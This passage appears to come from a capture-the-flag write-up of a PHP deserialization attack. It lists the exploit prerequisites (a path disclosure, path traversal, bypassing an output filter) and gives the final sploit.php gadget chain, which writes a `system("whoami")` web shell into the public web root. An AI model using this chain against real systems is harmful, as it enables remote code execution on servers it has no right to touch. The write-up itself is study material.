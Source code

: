 
#### 7. Exploit prerequisites

- FPD: `/var/www/webroot/public/import.php` from verbose error message from `PDOException`

- `song_views` can be modified to `../../../../../../../../../../../var/www/webroot/public/test.php`

- `new OutputFilter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>");` must me changed to `new OutputFilter("[0]", "");`
to bypass the

- the command to be executed can be placed in the `Song` object instantiation `new Song('<?=system("whoami");?>', 'b', 'c')`


#### 8. Final `sploit.php`

```php
<?php

class Lyrics
{
    protected $lyrics;
    protected $song;

    function __construct($lyrics, $song)
    {
        $this->song = $song;
        $this->lyrics = $lyrics;
    }

    function __destruct()
    {
        $this->song->log();
    }
}

class Song
{
    protected $logger;
    protected $name;
    protected $group;
    protected $url;

    // interesting
    function __construct($name, $group, $url)
    {
        $this->name = $name;
        $this->group = $group;
        $this->url = $url;
        $fltr = new OutputFilter("[0]", "");
        $this->logger = new Logger(
            new LogWriter_File(
            	// write a PHP file to the public web directory
                "../../../../../../../../../../../var/www/webroot/public/test.php",
                new LogFileFormat(array($fltr), "\n")
            )
        );
    }

    function log()
    {
        $this->logger->log("Song " . $this->name . " by [i]" . $this->group . "[/i] viewed.\n");
    }
}

```